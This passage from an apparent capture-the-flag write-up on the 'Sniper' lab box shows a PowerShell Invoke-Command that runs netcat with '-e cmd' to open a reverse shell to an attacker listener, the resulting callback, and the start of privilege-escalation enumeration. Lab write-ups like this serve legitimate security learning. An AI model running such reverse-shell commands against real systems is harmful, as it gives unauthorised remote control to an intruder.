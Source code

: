 
### Shell

To turn that into a shell, chris can run `nc`:

    
    
    PS C:\> Invoke-Command -ScriptBlock { \\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443 } -Credential $cred -Computer localhost
    

And get a callback on my listener (always using `rlwrap` for Windows):

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.151.
    Ncat: Connection from 10.10.10.151:57201.
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Users\Chris\Documents>whoami
    sniper\chris
    

## Priv: Chris –> Administrator

### Enumeration

In the root of the C drive there’s a folder `\docs` that iusr wasn’t able to
access, but chris can. It contains several files:

    
    
    C:\Docs>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640
    
     Directory of C:\Docs
    
    10/09/2019  06:54 PM    <DIR>          .
    10/09/2019  06:54 PM    <DIR>          ..
    04/11/2019  09:31 AM               285 note.txt
    04/11/2019  09:17 AM           552,607 php for dummies-trial.pdf
                   2 File(s)        552,892 bytes
                   2 Dir(s)  17,957,249,024 bytes free
    

`note.txt` talks about dropping documentation in this folder:

    
    
    C:\Docs>type note.txt
    type note.txt
    Hi Chris,
      Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
    